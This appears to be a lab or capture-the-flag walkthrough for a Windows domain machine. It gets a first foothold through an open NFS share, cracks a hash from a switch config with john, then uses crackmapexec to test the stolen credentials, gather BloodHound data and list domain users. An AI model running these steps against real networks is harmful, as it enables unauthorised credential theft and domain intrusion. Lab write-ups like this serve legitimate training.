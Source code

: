[https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting)

## First User via nfs shares

```bash
rpcinfo -p 10.10.243.199

100003   4   tcp  2049  nfs
```
```bash
showmount -e 10.10.243.199
Export list for 10.10.243.199:
/mnt/nfs_shares *
```
Then we can mount like this :

```bash
mount -t nfs -o vers=4,nolock 10.10.243.199:/mnt/nfs_shares ./toto
```
We got 'Switch344_running-config.cfg', cat him and get the hash on the top of the file

```console
$1$[...]2Wb/
```
```bash
# crack it
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
On the bottom of the file we can see this : 'ZIM@KLENDATHU.VL'

So let's try creds for this user :

```bash
cme smb 10.10.243.198 -u 'zim' -p 'REDACTED'

SMB         10.10.243.198   445    SRV1             [*] Windows 10.0 Build 20348 x64 (name:SRV1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.198   445    SRV1             [+] KLENDATHU.VL\zim:REDACTED

cme ldap 10.10.243.197 -u 'zim' -p 'REDACTED'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
LDAP        10.10.243.197   389    DC1              [+] KLENDATHU.VL\zim:REDACTED

# then do a bloodhound
cme ldap 10.10.243.197 -u 'zim' -p 'REDACTED' --bloodhound -c all -ns 10.10.243.197

# list users
cme smb 10.10.243.197 -u 'zim' -p 'REDACTED' --users
SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\zim:REDACTED
SMB         10.10.243.197   445    DC1              [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.243.197   445    DC1              [+] Enumerated domain user(s)
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\krbtgt                         Key Distribution Center Service Account
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\RICO
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\JENKINS
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\IBANEZ
SMB         10.10.243.197   445    DC1              KLENDATHU.VL\ZIM
```